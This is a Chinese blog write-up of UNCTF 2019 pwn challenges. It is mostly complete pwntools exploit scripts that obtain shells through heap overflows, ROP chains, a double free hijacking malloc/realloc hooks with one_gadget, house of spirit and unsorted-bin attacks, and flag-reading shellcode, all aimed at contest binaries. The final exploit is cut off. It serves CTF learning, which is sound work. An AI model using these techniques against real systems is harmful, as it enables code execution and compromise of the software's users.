



<!--yml
category: 未分类
date: 2022-04-26 14:36:58
-->

# unctf2019 pwn部分题解_NoOneGroup的博客-CSDN博客

> 来源：[https://blog.csdn.net/u010334666/article/details/103889663](https://blog.csdn.net/u010334666/article/details/103889663)

# unctf2019 pwn部分题解

[新博客链接](https://noone-hub.github.io/)

## babyheap

easy，不讲了

```
 from pwn import *

local = 1
host = '127.0.0.1' 
port = 10000
context.log_level = 'debug'
exe = '/tmp/tmp.spk5nTEvta/1910245db1406d3eedd'
context.binary = exe
elf = ELF(exe)
libc = elf.libc

if local:
    io = process(exe)
else:
    io = remote(host,port)

s    = lambda data            : io.send(str(data))
sa   = lambda delim,data      : io.sendafter(str(delim), str(data))
sl   = lambda data            : io.sendline(str(data))
sla  = lambda delim,data      : io.sendlineafter(str(delim), str(data))
r    = lambda numb=4096       : io.recv(numb)
ru   = lambda delim,drop=True : io.recvuntil(delim, drop)

uu32 = lambda data            : u32(data.ljust(4, '\x00'))
uu64 = lambda data            : u64(data.ljust(8, '\x00'))
lg   = lambda name,data       : io.success(name + ": 0x%x" % data)

def debug(addr,PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
        gdb.attach(io,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(io,"b *{}".format(hex(addr)))

def c(idx):
    sla("Your choice: ", str(idx))

def new(content):
    c(1)
    sa("Plz input content: ", content)

def edit(idx, size, content):
    c(2)
    sla("Plz input index: ", str(idx))
    sla("Plz input size: ", str(size))
    sa("Plz input content: ", content)

def show(idx):
    c(3)
    sla("Plz input index: ", str(idx))

def free(idx):
    c(4)
    sla("Plz input index: ", str(idx))

def exp():
    new("a"*0x10)
    edit(0, 0x18, "a"*0x18)
    show(0)
    r(0x18)
    puts = uu64(r(6))
    lg("addr", puts)
    libc.address = puts - libc.symbols['puts']
    new("a"*0x10)
    payload = "/bin/sh;#\x00"
    payload = payload.ljust(0x18, "a")
    payload += p64(libc.symbols['system'])
    edit(1, 0x20, payload)
    show(1)

if __name__ == '__main__':
    exp()
    io.interactive() 
```

## babyrop

简单

```
 from pwn import *

local = 1
host = '192.25.1.3' 
port = 9999
context.log_level = 'debug'
exe = './1910245db1406dc99ea'
context.binary = exe
elf = ELF(exe)
libc = ELF('./libc6_2.23-0ubuntu3_i386.so')
libc = elf.libc

if local:
    io = process(exe)
else:
    io = remote(host,port)

s    = lambda data            : io.send(str(data))
sa   = lambda delim,data      : io.sendafter(str(delim), str(data))
sl   = lambda data            : io.sendline(str(data))
sla  = lambda delim,data      : io.sendlineafter(str(delim), str(data))
r    = lambda numb=4096       : io.recv(numb)
ru   = lambda delim,drop=True : io.recvuntil(delim, drop)

uu32 = lambda data            : u32(data.ljust(4, '\x00'))
uu64 = lambda data            : u64(data.ljust(8, '\x00'))
lg   = lambda name,data       : io.success(name + ": 0x%x" % data)

def debug(addr,PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
        gdb.attach(io,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(io,"b *{}".format(hex(addr)))

def exp():
    payload = flat([
        "a"*0x20,
        p32(0x66666666)
    ])
    sl(payload)
    payload = flat([
        "a"*0x14,
        elf.plt['puts'],
        p32(0x804853d),
        elf.got['__libc_start_main']
    ])
    ru("What is your name?")
    r(1)
    sl(payload)
    __libc_start_main = uu32(r(4))
    lg("__libc_start_main", __libc_start_main)
    libc.address = __libc_start_main - libc.symbols['__libc_start_main']
    lg("libc_addr", libc.address)
    lg("system", libc.symbols['system'])
    lg("bin_sh", libc.search("/bin/sh").next())
    payload = flat([
        "a"*0x14,
        elf.plt["puts"],
        libc.symbols['system'],
        elf.got['__libc_start_main'],
        libc.search("/bin/sh").next()
    ])
    sla("What is your name?\n", payload)

if __name__ == '__main__':
    exp()
    io.interactive() 
```

## soeasypwn

```
 from pwn import *
local = True

exe = "./" + 'pwn'
elf = context.binary = ELF(exe)

host = '101.71.29.5'
port = 10000

context.log_level = 'debug'
libc = elf.libc
if local:
    io = process(exe)
else:
    io = remote(host,port)

s    = lambda data            : io.send(str(data))
sa   = lambda delim,data      : io.sendafter(str(delim), str(data))
sl   = lambda data            : io.sendline(str(data))
sla  = lambda delim,data      : io.sendlineafter(str(delim), str(data))
r    = lambda numb=4096       : io.recv(numb, timeout=1)
ru   = lambda delim,drop=True : io.recvuntil(delim, drop)

uu32 = lambda data            : u32(data.ljust(4, '\x00'))
uu64 = lambda data            : u64(data.ljust(8, '\x00'))
lg   = lambda name,data       : io.success(name + ": 0x%x" % data)

def debug(addr,PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
        gdb.attach(io,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(io,"b *{}".format(hex(addr)))

def exp():
    ru("Welcome our the ")
    leak = int(r(5),10)
    lg("leak", leak)

    addr = hex(leak) + "19CD"
    addr = int(addr, 16)
    lg("addr", addr)

    payload = 'a'*0xc + p32(addr) + '\x00'
    sa("So, Can you tell me your name?", payload)
    payload = '\x00'
    sa("(1.hello|2.byebye):", payload)
    r()
    r()

if __name__ == '__main__':
    while True:
        try:
            exp()
            io.interactive()
            break
        except Exception as e:
            io.close()
            io = process(exe) 
```

这里有个小细节，r()两次,

## Box

### 漏洞点

数组index是可以输入负数的，就是不会利用,后面看了萝卜师傅的wp才知道可以直接改IO_stdout

我是傻逼！这都想不到

然后有个double free,新点记录下

*   size == 0 ，这个时候等同于free
*   realloc_ptr == 0 && size > 0 ， 这个时候等同于malloc
*   malloc_usable_size(realloc_ptr) >= size， 这个时候等同于edit
*   malloc_usable_size(realloc_ptr) < szie， 这个时候才是malloc一块更大的内存，将原来的内容复制过去，再将原来的chunk给free掉

所以利用这个点第一次可以用普通的

1.  free(ptr)
2.  realloc(ptr,0)

这就是double free

### 漏洞利用

1.  利用IO_stdout泄露libc地址
2.  利用double free改realloc为one_gadget

#### 准备工作

```
 def c(idx):
    sla("Your Choice: ", str(idx))

def new(idx, size):
    c(1)
    sla("Box ID: ", str(idx))
    sla("Box Size: ", str(size))

def edit(idx, content):
    c(2)
    sla("Box ID: ", str(idx))
    sla("Box Content: ", content)

def free(idx):
    c(3)
    sla("Box ID: ", str(idx))

def exit():
    c(4) 
```

#### 泄露libc地址

```
 payload = p64(0xfbad1800)+ p64(0)*3 + '\x00'
    edit(-12, payload)
    lg("text_base", text_base)
    addr = uu64(r(8))
    libc.address = addr - 0x18c7c2
    if (libc.address&0xffff)%0x1000!=0:
	    raise EOFError

    lg("addr", addr) 
```

这里就是IO_FILE攻击，不清楚的可以自己学下，这里我学到个新操作。。我调试的时候要生要死的，没想到抛出异常，多亏大佬博客了，还有自己复现的时候用ida把前面一段打开文件那部分patch掉吧，不然感觉效率太慢了。。。

#### double free

这里还有个uaf

```
 new(0, 0x68)
    new(1, 0x68)
    free(0)
    new(1, 0)
    new(0, 0)
    new(0, 0x68)
    new(1, 0x68)
    edit(0, p64(libc.symbols['__malloc_hook']-0x23))
    new(2, 0x68)
    new(3, 0x68)
    one_gadget = [0x45216,0x4526a,0xf02a4,0xf1147]
    realloc = libc.symbols['__libc_realloc']
    malloc_hook = libc.symbols['__malloc_hook']
    malloc = libc.symbols['__libc_malloc'] 
```

这里常规操作，接下来的才是重头戏

#### one_gadget失败

```
 payload = "a"*0xb + p64(0xAAAAAAAA) 

    payload = "a"*0xb + p64(malloc+0x2) + p64(libc.address + one_gadget[1])
    edit(3, payload)
    gdb.attach(io)
    new(0, 1) 
```

这里你用payload = “a”*0xb + p64(one_gadget)你会发觉成功不了，

而malloc_hook和realloc_hook通常是一起的，所以我们可以利用这个组合达到一个目的，调整栈过后在one_gadget,具体如何往下看

```
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL 
```

原因就是环境对不上，接下来讲下如何让环境对的上这个

1.  首先将realloc_hook覆盖成随便一个无法正常运行的地址
    例如这种 payload = “a”*0xb + p64(0xAAAAAAAA)
    
    成功断下

2.  查看现在栈环境，跟上面的差别是什么

```
gdb-peda$ x/10gx $rsp+0x30-0x20
0x7ffc01f8c508:	0x0000000000000000	0x0000000000000000
0x7ffc01f8c518:	0x00007fb957514e90	0x00007ffc01f8c680
0x7ffc01f8c528:	0x0000562794411ca1	0x0000000000000a31
0x7ffc01f8c538:	0x0000000000000000	0x00007ffc01f8c580
0x7ffc01f8c548:	0x0000562794411a40	0x00007ffc01f8c680
gdb-peda$ x/10gx $rsp+0x30
0x7ffc01f8c528:	0x0000562794411ca1	0x0000000000000a31
0x7ffc01f8c538:	0x0000000000000000	0x00007ffc01f8c580
0x7ffc01f8c548:	0x0000562794411a40	0x00007ffc01f8c680
0x7ffc01f8c558:	0x0000000000000000	0x0000000000000000
0x7ffc01f8c568:	0x0000562794411d63	0x0000000094411a40
gdb-peda$ x/10gx $rsp+0x50
0x7ffc01f8c548:	0x0000562794411a40	0x00007ffc01f8c680
0x7ffc01f8c558:	0x0000000000000000	0x0000000000000000
0x7ffc01f8c568:	0x0000562794411d63	0x0000000094411a40
0x7ffc01f8c578:	0x0000000000000001	0x00007ffc01f8c5a0
0x7ffc01f8c588:	0x0000562794412001	0x0000000100000000
gdb-peda$ x/10gx $rsp+0x70
0x7ffc01f8c568:	0x0000562794411d63	0x0000000094411a40
0x7ffc01f8c578:	0x0000000000000001	0x00007ffc01f8c5a0
0x7ffc01f8c588:	0x0000562794412001	0x0000000100000000
0x7ffc01f8c598:	0x5c71a837f5655700	0x0000562794412050
0x7ffc01f8c5a8:	0x00007fb9574fe830	0x0000000000000001 
```

看，上述环境没有一个符合了，那么现在该如何做呢，发觉0x10可以，0x40可以，还有0x60可以，
栈是往低地址生长的
也就是说我们只要将rsp提高0x10,就变成rsp+0x10+0x30了就可以了

调用一个函数过后通常来说栈是平衡的
只要我们稍微改动一下我们调用的位置就行了，比如函数头地址+4，从这里开始执行，假设绕过一个push，这样的话，就相当于pop多一个，pop多一个的话，esp会提高一个寄存器大小的位置，也就是rsp=rsp+0x8
利用这个特性，我们也就是说可以调整栈，让其指定位置为0

我们调整第2个one_gadget吧，让其提高0x10就可以了，怎么让其提高呢，我们可以利用malloc这个函数，因为他会调用malloc_hook，组合调用
我就选了malloc

```
gdb-peda$ p __libc_malloc
$1 = {void *(size_t)} 0x7f4137102130 <__GI___libc_malloc> 
```

```
gdb-peda$ disassemble 0x7f4137102130 
Dump of assembler code for function __GI___libc_malloc:
   0x00007f4137102130 <+0>:	push   rbp
   0x00007f4137102131 <+1>:	push   rbx
   0x00007f4137102132 <+2>:	sub    rsp,0x8
   0x00007f4137102136 <+6>:	mov    rax,QWORD PTR [rip+0x33fdb3]        
   0x00007f413710213d <+13>:	mov    rax,QWORD PTR [rax]
   0x00007f4137102140 <+16>:	test   rax,rax
   0x00007f4137102143 <+19>:	jne    0x7f4137102298 <__GI___libc_malloc+360>
   0x00007f4137102149 <+25>:	mov    rax,QWORD PTR [rip+0x33fc40] 
```

看函数头，我们发觉有两个push，一个sub rsp,0x8,
计算下我们有0x18可控，所以我们提高0x10的话，就从+2开始就行了，
所以**payload = "a"*0xb + p64(malloc+0x2) + p64(libc.address + one_gadget[1])**
前面的a填充过后就是realloc_hook，覆盖成malloc+0x2，所以这样让栈提高0x10,接下来是malloc函数，

具体个执行过程呢就是realloc_hook被覆盖成malloc+2了，malloc_hook被覆盖成one_gadget了，
所以先执行的是malloc+2,然后执行malloc_hook

```
 0x7f1e223d2132 <malloc+2>          sub    rsp, 8
 ► 0x7f1e223d2136 <malloc+6>          mov    rax, qword ptr [rip + 0x33fdb3] <0x7f1e223d2132>
   0x7f1e223d213d <malloc+13>         mov    rax, qword ptr [rax]
   0x7f1e223d2140 <malloc+16>         test   rax, rax
   0x7f1e223d2143 <malloc+19>         jne    malloc+360 <0x7f1e223d2298>
    ↓
   0x7f1e223d2298 <malloc+360>        mov    rsi, qword ptr [rsp + 0x18]
   0x7f1e223d229d <malloc+365>        add    rsp, 8
   0x7f1e223d22a1 <malloc+369>        pop    rbx
   0x7f1e223d22a2 <malloc+370>        pop    rbp
   0x7f1e223d22a3 <malloc+371>        jmp    rax
    ↓
   0x7f1e2239326a <do_system+1098>    mov    rax, qword ptr [rip + 0x37ec47] 
```

```
void *
__libc_malloc (size_t bytes) 
{
  mstate ar_ptr;
  void *victim;

  void *(*hook) (size_t, const void *) 
    = atomic_forced_read (__malloc_hook);
  if (__builtin_expect (hook != NULL, 0))
    return (*hook)(bytes, RETURN_ADDRESS (0));
} 
```

malloc调用前会查看mallo_hook是否存在，存在就调用malloc_hook

```
 0x00007f1e223d2130 <+0>:	push   rbp
   0x00007f1e223d2131 <+1>:	push   rbx
   0x00007f1e223d2132 <+2>:	sub    rsp,0x8
=> 0x00007f1e223d2136 <+6>:	mov    rax,QWORD PTR [rip+0x33fdb3]        
   0x00007f1e223d213d <+13>:	mov    rax,QWORD PTR [rax]
   0x00007f1e223d2140 <+16>:	test   rax,rax
   0x00007f1e223d2143 <+19>:	jne    0x7f1e223d2298 <__GI___libc_malloc+360> 
```

这里就是查看malloc_hook部分，若有调到+360处



看，成功迁移位置



### exp

```
 from pwn import *

local = 1
host = '127.0.0.1' 
port = 10000
context.log_level = 'debug'
exe = '/tmp/tmp.a0yo4SjOZB/Box'
context.binary = exe
elf = ELF(exe)
libc = elf.libc

if local:
    io = process(exe)
else:
    io = remote(host,port)

s    = lambda data            : io.send(str(data))
sa   = lambda delim,data      : io.sendafter(str(delim), str(data))
sl   = lambda data            : io.sendline(str(data))
sla  = lambda delim,data      : io.sendlineafter(str(delim), str(data))
r    = lambda numb=4096       : io.recv(numb)
ru   = lambda delim,drop=True : io.recvuntil(delim, drop)

uu32 = lambda data            : u32(data.ljust(4, '\x00'))
uu64 = lambda data            : u64(data.ljust(8, '\x00'))
lg   = lambda name,data       : io.success(name + ": 0x%x" % data)

text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)

def debug(addr,PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
        gdb.attach(io,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(io,"b *{}".format(hex(addr)))

def c(idx):
    sla("Your Choice: ", str(idx))

def new(idx, size):
    c(1)
    sla("Box ID: ", str(idx))
    sla("Box Size: ", str(size))

def edit(idx, content):
    c(2)
    sla("Box ID: ", str(idx))
    sla("Box Content: ", content)

def free(idx):
    c(3)
    sla("Box ID: ", str(idx))

def exit():
    c(4)

def exp():
    payload = p64(0xfbad1800)+ p64(0)*3 + '\x00'
    edit(-12, payload)
    lg("text_base", text_base)
    addr = uu64(r(8))
    libc.address = addr - 0x18c7c2
    if (libc.address&0xffff)%0x1000!=0:
	    raise EOFError

    lg("addr", addr)
    new(0, 0x68)
    new(1, 0x68)
    free(0)
    new(1, 0)
    new(0, 0)
    new(0, 0x68)
    new(1, 0x68)
    edit(0, p64(libc.symbols['__malloc_hook']-0x23))
    new(2, 0x68)
    new(3, 0x68)
    one_gadget = [0x45216,0x4526a,0xf02a4,0xf1147]
    realloc = libc.symbols['__libc_realloc']
    malloc_hook = libc.symbols['__malloc_hook']
    malloc = libc.symbols['__libc_malloc']
    payload = "a"*0xb + p64(0xAAAAAAAA) 

    payload = "a"*0xb + p64(malloc+0x2) + p64(libc.address + one_gadget[1])
    edit(3, payload)
    gdb.attach(io)
    new(0, 1)

if __name__ == '__main__':
    while True:
        try:
            exp()
            io.interactive()
            break
        except Exception as e:
            print(e)
            io.close()
            io = process(exe) 
```

## driver

开头没想到怎么利用，他利用了top_chunk合并将unsortbin合并了，以前只是防止合并，利用合并也是个知识盲点

```
 else {
            size += nextsize;
            set_head(p, size | PREV_INUSE);
            av->top = p;
            check_chunk(av, p);
        } 
```

House Of Spirit¶
介绍
House of Spirit 是 the Malloc Maleficarum 中的一种技术。

该技术的核心在于在目标位置处伪造 fastbin chunk，并将其释放，从而达到分配指定地址的 chunk 的目的。

要想构造 fastbin fake chunk，并且将其释放时，可以将其放入到对应的 fastbin 链表中，需要绕过一些必要的检测，即

fake chunk 的 ISMMAP 位不能为 1，因为 free 时，如果是 mmap 的 chunk，会单独处理。
fake chunk 地址需要对齐， MALLOC_ALIGN_MASK
fake chunk 的 size 大小需要满足对应的 fastbin 的需求，同时也得对齐。
fake chunk 的 next chunk 的大小不能小于 2 * SIZE_SZ，同时也不能大于av->system_mem 。
fake chunk 对应的 fastbin 链表头部不能是该 fake chunk，即不能构成 double free 的情况。

又补充了知识盲区，要将chunk放入fastbin，得过掉检查，其中一个便是下一个chunk的size检查，不能小于两倍的size_s，并且不能大于sysstem_mem

```
 if ((unsigned long) (size) <= (unsigned long) (get_max_fast())

#if TRIM_FASTBINS

        && (chunk_at_offset(p, size) != av->top)
#endif
            ) {

        if (__builtin_expect(
                chunksize_nomask(chunk_at_offset(p, size)) <= 2 * SIZE_SZ, 0) ||
            __builtin_expect(
                chunksize(chunk_at_offset(p, size)) >= av->system_mem, 0)) {

            if (have_lock || ({
                    assert(locked == 0);
                    __libc_lock_lock(av->mutex);
                    locked = 1;
                    chunksize_nomask(chunk_at_offset(p, size)) <= 2 * SIZE_SZ ||
                        chunksize(chunk_at_offset(p, size)) >= av->system_mem;
                })) {
                errstr = "free(): invalid next size (fast)";
                goto errout;
            }
            if (!have_lock) {
                __libc_lock_unlock(av->mutex);
                locked = 0;
            }
        }

        free_perturb(chunk2mem(p), size - 2 * SIZE_SZ);

        set_fastchunks(av);

        unsigned int idx = fastbin_index(size);

        fb               = &fastbin(av, idx);

        mchunkptr    old     = *fb, old2;
        unsigned int old_idx = ~0u;
        do {

            if (__builtin_expect(old == p, 0)) {
                errstr = "double free or corruption (fasttop)";
                goto errout;
            }

            if (have_lock && old != NULL)
                old_idx = fastbin_index(chunksize(old));
            p->fd = old2 = old;
        } while ((old = catomic_compare_and_exchange_val_rel(fb, p, old2)) !=
                 old2);

        if (have_lock && old != NULL && __builtin_expect(old_idx != idx, 0)) {
            errstr = "invalid fastbin entry (free)";
            goto errout;
        }
    } 
```

还用到了unsortbin攻击，强，各种组合，多次house of sprit加unsortbin攻击

整体流程，unlink造成可以house of sprit攻击，然后通过多次house of sprit攻击，后门用unsortedbin攻击，最后getshell,流程复杂，原理简单

我本来想用chunk extends加fastbin attack，发觉他给了这么多功能好像没用上，应该不是这个攻击方法。。。然后就去看wp了，发觉他的wp攻击流程那些点全用上了，不过复杂起来了，赛后还看到另外师傅的wp，就是说这个有非预期，就是说这个有非预期，就是用chunk extends加fastbin attack

### exp

```
 from pwn import *

local = 1
host = '127.0.0.1' 
port = 10000
context.log_level = 'debug'
exe = '/tmp/tmp.ReKO1V3cZk/pwn'
context.binary = exe
elf = ELF(exe)
libc = elf.libc

if local:
    io = process(exe)
else:
    io = remote(host,port)

s    = lambda data            : io.send(str(data))
sa   = lambda delim,data      : io.sendafter(str(delim), str(data))
sl   = lambda data            : io.sendline(str(data))
sla  = lambda delim,data      : io.sendlineafter(str(delim), str(data))
r    = lambda numb=4096       : io.recv(numb)
ru   = lambda delim,drop=True : io.recvuntil(delim, drop)

uu32 = lambda data            : u32(data.ljust(4, '\x00'))
uu64 = lambda data            : u64(data.ljust(8, '\x00'))
lg   = lambda name,data       : io.success(name + ": 0x%x" % data)

def debug(addr,PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
        gdb.attach(io,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(io,"b *{}".format(hex(addr)))

def c(idx):
    sla("Your Choice>> \n", str(idx))

def new(idx, content):
    c(1)
    c(idx)
    sa("Please input car's name: \n", content)

def show():
    c(2)

def edit(idx, content):
    c(4)
    sla("Please input car's index: ", str(idx))
    sa("Please input name: ", content)

def free(idx):
    c(3)
    sla("Please input car's index: ", str(idx))

def down(idx):
    c(5)
    sla(":", str(idx))
    sla(">>", 2)

def up1(idx):
    c(5)
    sla(":", str(idx))
    sla(">>", "1")
    sla(">>", "1")
    ru("Car's Speed is ")
    return int(ru("Km/h"), 10)

def up2(idx):
    c(5)
    sla(":", str(idx))
    sla(">>", "1")
    sla(">>", "2")
    ru("Car's Speed is ")
    return int(ru("Km/h"), 10)

def getlicense(idx, content):
    c(6)
    sla(":", str(idx))
    sla(":", content)

def exp():
    c(8)
    ru("gift: ")
    heap_base = int(r(14), 16)
    heap_base = (heap_base >> 12) << 12
    new(3, "3"*0x4)
    new(2, "2"*0x4)
    free(1)
    free(0)
    new(2, "2"*0x4) 
    new(2, "2"*0x4) 
    payload = flat([
        0,
        0xf0,
        heap_base+0x58-0x18,
        heap_base+0x58-0x10,
        p64(0)*3,
        0x1234
    ])
    payload = payload.ljust(0xf0)
    payload += p64(0xf0)
    edit(0, payload)
    free(1)
    for i in range(48):
        down(0)
    for i in range(3):
        up1(0)
    for i in range(3):
        up2(0)
    up1(0)
    payload = flat([
        p64(0)*7,
        0x1234,
    ])
    payload = payload.ljust(0x220, '\x00')
    new(3, payload)
    free(0)
    payload = flat([
        0,
        0x68,
        0,
        heap_base+0x2b0,
        0,
        0x101,
        0,
        0x221
    ])
    new(1, payload) 
    for i in range(48):
        down(1)
    for i in range(3):
        up1(1)
    for i in range(3):
        up2(1)
    up1(1)
    free(0)
    payload = flat([
        0,
        0x220,
        0,
        heap_base + 0x270,
        0x220
    ])
    new(1, payload)
    show()
    ru("Car 1's name: ")
    main_arena = uu64(r(6))-88
    libc.address = main_arena - 0x10 - libc.symbols['__malloc_hook']
    __free_hook = libc.symbols['__free_hook']
    system = libc.symbols['system']
    free(0)
    payload = flat([
        0,
        0,
        0x220,
        heap_base + 0x2e0,
        0x220
    ])
    new(1, payload)
    new(3, "aaa\n")
    free(1)
    free(0)
    payload = flat([
        p64(0)*2,
        0x220,
        heap_base + 0x2e0,
        0x220,
        0x231,
        main_arena+88,
        heap_base
    ])
    new(1, payload)
    gdb.attach(io)
    new(3, p64(0))
    free(0)
    payload = flat([
        "/bin/sh\x00"*2,
        p64(0x220),
        p64(__free_hook),
        p32(0),
        '\n'
    ])
    new(1, payload)
    getlicense(1, p64(system))
    free(0)
    lg("main_arena", main_arena)
    lg("heap_base", heap_base)

if __name__ == '__main__':
    exp()
    io.interactive() 
```

## orwpwn

```
[+]      libc.addressess-->0x7f4fabd43000
[*] Switching to interactive mode
flag{123456} 
```

先放上成功结果

### 新点

#### mprotect改内存页权限

以前不知道这个姿势，知道后感觉挺骚的，挺强的一个方法
mprotect传入参数后，能让指定内存页变成可执行，所以利用方式

[mprotect改内存页权限](https://blog.csdn.net/Roland_Sun/article/details/33728955)

1.  知道一个内存页的地址
2.  这个内存页内容可控

[x64系统调用表](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

#### shellcode编写

这个我以前也很怕的，这次自己写了下好像也就那样嘛，不会很复杂的，通常来说，你只要自己调试下就行了

```
from pwn import *
if __name__ == '__main__':
    shellcode = shellcraft.amd64.open('flag')
    shellcode += '''
    mov edi, eax
    mov rsi, rsp
    mov edx, 0x100
    xor eax, eax
    syscall

    mov edi, 1
    mov rsi, rsp
    push 1
    pop rax
    syscall
    '''
    print(shellcode)
    print(asm(shellcode, arch='amd64')) 
```

可以通过context设置平台，context.arch=‘amd64’
我这里没设置，所以就用每次加个amd64

打开flag文件部分，大概就是

1.  设置rax=2
2.  rdi = filename
3.  rsi = 0 #标志只读方式
4.  rdx = 0 # mode其实可以不填，所以，不用设置也可以
5.  rax=2 # 系统中断号
6.  调用syscall

后面几个流程差不多，看下中断表就行

自己写的话

```
push 0x67616c66
mov rdi,rsp
xor esi,esi
push 2
pop rax
syscall 
```

然后我为了省事，直接用shellcraft.amd64.open(‘flag’)生成了

接下来读取函数，因为返回了fd，存在rax里，所以第一步要保存rax值到rdi里

```
mov rdi,rax
mov rsi,rsp
xor eax,eax
syscall 
```

在接下来写函数

```
mov edi,1
mov rsi,rsp
push 1
pop rax
syscall 
```


最后推荐篇文章
[shellcode编写](https://xz.aliyun.com/t/6645)

感觉总结得挺好的

#### SROP

这部分可以去看下ctf-wiki吧

[SROP攻击](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/advanced-rop-zh/#srop)

### 漏洞利用过程

#### 准备部分

```
def choice(idx):
    sla("Your Choice: ", str(idx))

def new(size, content):
    choice(1)
    sla("Please input size: ", str(size))
    if len(content) == (size+1):
        sa("Please input content: ", content)
    else:
        sla("Please input content: ", content)

def edit(idx, content):
    choice(3)
    sla("Please input idx: ", str(idx))
    sa("Please input content: ", content)

def delete(idx):
    choice(2)
    sla("Please input idx: ", str(idx))

def exit():
    choice(4) 
```

#### IO_file攻击

这部分就是通过溢出，修改size,然后free掉一个fake的，最后通过IO_file攻击泄露地址，
这部分我是拿的ex师傅的部分的，我自己也写了个这部分的，利用chunk extends，搞复杂了，那会，感觉这个简洁些

```
 new(0x68, '1') 
    new(0x78, '2') 
    payload = p64(0) + p64(0x21)
    new(0x68, payload*6) 
    new(0x68, payload*6) 
    delete(0)
    new(0x68, 'a'*0x60 + p64(0) + p8(0xf1)) 
    delete(1)
    delete(2)
    new(0x78, '1') 
    delete(0)
    new(0x68, 'a'*0x60 + p64(0) + p8(0xa1)) 
    delete(1)
    new(0x98, '1') 
    edit(1, 'b'*0x70 + p64(0) + p64(0x71) + p16(0x8620-0x40-0x3))
    new(0x68, '\n') 
